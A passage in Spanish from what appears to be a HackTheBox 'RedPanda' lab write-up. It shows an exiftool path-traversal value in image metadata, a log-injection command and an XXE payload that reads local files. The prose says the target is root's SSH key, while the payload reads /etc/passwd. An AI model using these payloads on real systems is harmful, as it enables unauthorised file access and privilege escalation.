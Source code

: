 El contenido del metadato ```Artist``` se está empleando para crear una ruta. Utilizo una imagen ```JPG``` cualquiera para añadirle este y apuntar a un XML que crearé de mi lado en la ruta ```/tmp```

```null
exiftool rubbx.jpg -Artist=../../../../../../../../../tmp/rubbx
Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - rubbx.jpg
    1 image files updated
```

Inyecto la imagen para que se interprete

```null
woodenk@redpanda:/opt/panda_search$ echo "304||10.10.16.10||Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36||/../../../../../../../../tmp/rubbx.jpg" >> redpanda.log 
```

Descargo el archivo ```export.xml``` desde la web, que es donde voy a probar un XXE para exfiltrar archivos internos

<img src="/writeups/assets/img/RedPanda-htb/7.png" alt="">

Lo modifico indicando con una entidad que quiero cargar en la etiqueta ```<views>``` la ```id_rsa``` del usuario ```root```

```null
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/img/angy.jpg</uri>
    <views>&xxe;</views>
  </image>
  <image>
    <uri>/img/shy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/crafty.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/peter.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```